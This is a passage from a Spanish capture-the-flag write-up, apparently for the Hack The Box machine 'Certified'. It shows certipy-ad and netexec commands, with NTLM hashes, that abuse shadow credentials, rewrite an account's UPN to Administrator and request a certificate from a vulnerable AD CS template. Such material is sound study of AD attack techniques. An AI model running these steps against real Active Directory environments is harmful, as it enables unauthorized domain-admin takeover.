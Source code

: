 Una vez obtenido del hash del usuario "ca\_operator@certified.htb" procederemos a validar el hash NTLM obtenido.

{% code overflow="wrap" %}
```bash
certipy-ad shadow auto -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -account CA_OPERATOR

netexec smb 10.10.11.41 -u 'CA_OPERATOR' -H '613a519b5b0ef57c07bc6395aa1aff14'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2496_vmware_E0ErQf2bB9.png" alt=""><figcaption></figcaption></figure>

Utilizamos Certipy para actualizar el UPN de la cuenta **CA\_OPERATOR**, asignándole el valor de **Administrator**. Esto nos permite asociar cualquier certificado emitido a **CA\_OPERATOR** con la identidad de **Administrator**:

{% code overflow="wrap" %}
```bash
certipy-ad account update -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn administrator
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2497_vmware_gZCnQVgrUF.png" alt=""><figcaption></figcaption></figure>

Solicitamos un certificado utilizando la plantilla vulnerable **CertifiedAuthentication**. Este certificado se emitió con el UPN de **Administrator**, habilitando su uso para autenticación con privilegios elevados:

{% code overflow="wrap" %}
```bash
certipy-ad req -username CA_OPERATOR@certified.htb -hashes 613a519b5b0ef57c07bc6395aa1aff14 -dc-ip 10.10.11.41 -ca certified-DC01-CA -template CertifiedAuthentication
```
{% endcode %}
